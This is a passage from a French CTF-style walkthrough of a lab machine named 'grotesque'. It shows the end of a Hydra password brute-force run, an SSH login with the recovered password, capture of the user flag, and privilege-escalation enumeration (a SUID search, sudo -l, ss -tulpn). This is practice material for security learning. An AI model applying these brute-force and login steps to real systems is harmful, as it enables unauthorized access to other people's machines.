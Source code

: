 ```bash
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-07-20 23:24:23

```
on a obtenu son mot de pass **61a4e3e60c063d1e472**

3. Essayee de log in avec **freddie** et **61a4e3e60c063d1e472**

```bash
ssh freddie@10.1.12.130
```

![请添加图片描述](https://i-blog.csdnimg.cn/direct/c5ce1e44fb714234986f7af5dc5810ba.png)
## L'élévation des privilèges
1.Collecte d'informations

```bash
freddie@grotesque:~$ ls
user.txt
freddie@grotesque:~$ cat user.txt
35A7EB682E33E89606102A883596A880freddie@grotesque:~$ 
```
le premier flag

2. Essayer l'élévation des privilèges

```bash
freddie@grotesque:~$ find / -perm -u=s -type f 2>/dev/null 
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/bin/passwd
/usr/bin/mount
/usr/bin/chfn
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/su
/usr/bin/gpasswd
/usr/bin/chsh
freddie@grotesque:~$ sudo -l
-bash: sudo: command not found

```
3. 
```bash
ss -tulpn 
```

permet de voir quels ports sont ouverts par l'utilisateur.

```bash
freddie@grotesque:~$ ss -tulpn
Netid            State             Recv-Q            Send-Q                       Local Address:Port                        Peer Address:Port            
udp              UNCONN            0                 0                                  0.0.0.0:68                               0.0.0.0:*               
udp              UNCONN            0                 0                              10.1.13.255:137                              0.0.0.0:*               
udp              UNCONN            0                 0                              10.1.12.130:137                              0.0.0.0:*               
udp              UNCONN            0                 0                                  0.0.0.0:137                              0.0.0.0:*               
udp              UNCONN            0                 0                              10.1.13.255:138                              0.0.0.0:*               
```